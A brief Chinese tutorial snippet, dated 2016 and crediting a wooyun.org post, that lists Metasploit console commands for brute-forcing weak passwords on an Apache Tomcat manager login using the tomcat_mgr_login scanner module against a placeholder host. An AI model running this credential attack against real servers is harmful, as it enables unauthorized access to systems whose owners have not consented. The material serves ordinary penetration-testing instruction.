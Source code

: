 # MetaSploit---tomcat后台弱口令爆破示例

```r
1. service postgresql start
2. msfdb init
3. msfconsole
4. db_status
5. search tomcat
6. use auxiliary/scanner/http/tomcat_mgr_login
7. set RHOSTS 1.2.3.4
8. run
```

原链接: http://drops.wooyun.org/tips/2143  


2016/6/8  
